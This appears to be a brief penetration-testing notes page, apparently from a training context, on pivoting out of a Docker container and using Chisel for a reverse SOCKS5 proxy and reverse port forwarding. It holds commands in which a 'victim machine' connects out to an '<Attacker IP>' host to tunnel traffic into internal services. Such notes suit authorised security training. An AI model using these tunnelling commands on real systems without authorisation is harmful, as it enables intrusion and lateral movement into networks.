 
## Docker
From a docker container you can pivot through it to access the host ip at 172.17.0.1

## Chisel
#### Create a socks5 proxy:

```bash
# On the attacker machine:
./chisel server -p 6969 --socks5 --reverse

# On the victim machine:
./chisel client <Attacker IP>:6969 R:socks
```

Then use proxychains

#### Reverse forward a specific port:

```bash
# On the attacker machine:
./chisel server --reverse --port 6969

# On the victim machine:
.\chisel client <Attacker IP>:6969 R:1433:127.0.0.1:1433
```



## Resource
- TCM Session passing : https://academy.tcm-sec.com/courses/1444641/lectures/33152749